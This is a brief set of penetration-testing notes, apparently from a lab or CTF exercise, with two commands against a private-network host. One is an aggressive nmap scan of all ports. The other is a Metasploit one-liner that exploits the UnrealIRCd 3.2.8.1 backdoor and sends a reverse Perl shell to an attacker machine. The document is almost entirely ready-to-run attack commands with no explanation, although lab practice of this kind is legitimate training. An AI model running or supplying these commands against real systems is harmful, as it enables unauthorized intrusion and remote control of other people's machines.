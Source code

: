 ## NMAP
```
nmap -T4 -sS -A -Pn -p- 192.168.56.103
```
## BackDoor
```
msfconsole -q -x "use exploit/unix/irc/unreal_ircd_3281_backdoor; set RHOSTS 192.168.56.103; set LHOST 192.168.56.102; set payload cmd/unix/reverse_perl; run"
```


